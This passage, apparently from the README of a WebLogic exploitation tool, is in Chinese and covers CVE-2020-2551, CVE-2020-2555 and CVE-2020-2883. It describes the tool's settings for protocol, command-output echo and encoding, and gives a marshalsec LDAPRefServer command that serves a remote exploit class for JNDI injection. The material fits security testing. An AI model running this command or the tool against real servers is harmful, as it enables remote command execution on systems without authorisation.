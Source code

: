 #### LDAP 地址

验证 CVE-2020-2551 时必须要使用的配置项，默认情况下不会进行配置需要自行开启 LDAP 服务，利用的 EXP 默认存储在 poc 目录中（在手册中附带远程的地址，使用时可直接指向远程地址），开启 LDAP 服务可通过 marshalsec 进行启动，以下为详细的启动命令：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:port/#PocServerClusterMasterRemote 1099
```

#### 漏洞编号

默认情况下为`请选择`选项，目前已经集成 CVE-2020-2551、CVE-2020-2555、CVE-2020-2883。

#### 协议

测试、利用漏洞时使用的协议，默认情况下使用 IIOP 协议，**T3 协议不稳定**。

#### 回显类

使用 T3、IIOP 协议进行利用时执行命令回显的类，默认情况下为 ClusterMasterRemote。

#### 编码

执行命令执行回显的编码，默认情况下为自动，可通过配置项设置为 UTF-8、GBK 编码。

#### 版本

Weblogic 版本，在提前得知版本的情况下可通过该方式进行配置。

## FQA

**Q：为什么加入之前的漏洞？**

Weblogic 的安全更新补丁是互斥的，安装是需要卸载之前的补丁，所以只需要保持最近一年的精华利用漏洞即可。

## 更新日志

2020-06-25

- 新增 T3、IIOP 协议开放检测
- 优化 CVE-2020-2551 回显方案

2020-04-04

- 取消入口为 ip + port 方式修改为 url 方式
- 修改部分实现


